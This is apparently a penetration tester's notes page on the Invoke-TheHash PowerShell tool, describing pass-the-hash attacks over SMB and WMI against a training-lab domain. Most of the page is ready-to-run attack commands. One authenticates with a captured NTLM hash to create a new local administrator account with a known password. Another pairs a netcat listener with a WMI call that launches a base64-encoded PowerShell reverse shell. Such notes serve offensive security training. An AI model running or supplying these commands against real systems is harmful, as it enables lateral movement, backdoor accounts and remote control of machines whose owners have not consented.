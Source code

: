 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```


This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.

[GitHub - Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

## Usage

When using `Invoke-TheHash`, we have two options: SMB or WMI command execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:

- `Target` - Hostname or IP address of the target.
- `Username` - Username to use for authentication.
- `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

### SMB

```powershell-session
Import-Module .\Invoke-TheHash.psd1
```

```powershell-session
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

### WMI

```powershell-session
Import-Module .\Invoke-TheHash.psd1
```

```powershell-session
.\nc.exe -lvnp 8001
```

See [[3. Exploitation/Remote Shells/1. Guide|Remote Shells]] and PowerShell Base64

```powershell-session
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <POWERSHELL BASE 64 REVERSE SHELL>"
```
